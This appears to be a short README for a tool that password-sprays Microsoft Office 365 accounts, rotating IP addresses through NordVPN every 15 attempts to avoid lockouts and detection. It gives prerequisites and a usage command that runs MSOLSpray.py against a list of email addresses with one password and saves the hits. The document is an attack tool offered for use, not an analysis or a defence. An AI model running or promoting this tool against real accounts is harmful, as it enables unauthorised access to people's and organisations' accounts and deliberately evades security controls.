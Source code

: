 # Password spraying O365 with IP rotation (nordvpn)
Password spraying O365 with IP rotation (nordvpn) every 15 attemps

## Prerequisites

* Nordvpn client (tested on debian)
* Connect to nordvpn
```bash
sudo nordvpn login --username '<mail>' --password '<pass>'
```
* Python packages
```bash
pip3 install -r requirements.txt
```

### Usage

```bash
sudo python3 MSOLSpray.py -u <path/to/mail/file> -p '<pass>' --vpn -o result.txt
```
